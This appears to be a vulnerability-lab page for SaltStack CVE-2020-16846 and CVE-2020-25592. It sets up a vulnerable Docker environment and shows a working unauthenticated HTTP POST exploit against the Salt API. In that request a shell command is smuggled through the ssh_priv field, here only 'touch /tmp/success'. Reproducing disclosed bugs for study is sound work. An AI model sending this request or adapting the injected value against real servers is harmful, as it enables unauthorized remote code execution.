

SaltStack Command Injection Remote Code Execution (CVE-2020-16846)¶
Salt is a new approach to infrastructure management built on a dynamic communication bus. Salt can be used for data-driven orchestration, remote execution for any infrastructure, configuration management for any app stack, and much more.
In November 2020, SaltStack officially disclosed two vulnerabilities, CVE-2020-16846 and CVE-2020-25592. CVE-2020-25592 allows arbitrary user to use the SSH module, and CVE-2020-16846 allows users to execute arbitrary commands. Chain these two vulnerabilities will allow unauthorized attackers to execute arbitrary commands through the Salt API.
References:
- https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag
- https://docs.saltstack.com/en/latest/ref/netapi/all/salt.netapi.rest_cherrypy.html
Vulnerable Environment¶
Execute the following command to start a SaltStack-Master service:
docker compose up -d
After the SaltStack-Master is started, the following ports will be listened:
- 4505/4506: SaltStack-Master server, which is a bridge between master and minions
- 8000: Salt's API server, SSL requiring
- 2222: SSH server inside the container
Exploit¶
Send the following request to https://your-ip:8000/run:
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87
token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/success%3b
Inject the command touch /tmp/success through the ssh_priv parameter:
